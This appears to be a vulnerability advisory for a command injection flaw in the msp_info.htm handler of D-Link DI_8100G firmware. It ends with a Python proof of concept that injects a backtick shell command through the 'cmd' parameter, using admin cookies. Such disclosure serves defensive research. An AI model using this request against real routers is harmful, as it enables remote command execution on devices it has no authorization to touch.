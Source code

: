 # DI_8100G-17.12.20A1 Command_Injection
# D-link:DI_8100G-17.12.20A1 Command Injection

# Firmware information
Firmware download address:http://www.dlink.com.cn/techsupport/download.ashx?file=5492

# Description:
A vulnerability was discovered in DI_8100G-17.12.20A1, which has been classified as critical. This issue affects the frontend functionality of the msp_info.htm file, which calls the sub_457A6C function within the web service jhttpd. An attacker manipulating the path parameter can potentially lead to command injection.

# Analyse:
![](vx_images/586413112412508.png)



The param_1 here is the value passed in. First, check if this passed-in value contains 'flag'. If it does, continue to check if the flag variable equals 'cmd'. If it does, call the httpd_get_parm function to get the address of the cmd parameter content. After this function executes, if the returned value is not empty or if the address it points to is not '\0' (indicating the end of the string), concatenate pcVar5 to pcVar1. Then pcVar1 is used as the parameter for the system function.



# poc

![](vx_images/172452296841957.png)
![](vx_images/15023756829127.png)


```
import requests

burp0_url = "http://192.168.0.1:80/msp_info.htm?flag=cmd&cmd=`echo%20aaa>longlong.txt`"
burp0_cookies = {"gw_userid": "admin,gw_passwd=3AD6F40535A864417D03912DCA74EDBD"}
burp0_headers = {"Accept": "application/json, text/javascript, */*", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Referer": "http://192.168.0.1/manage_2.html", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```







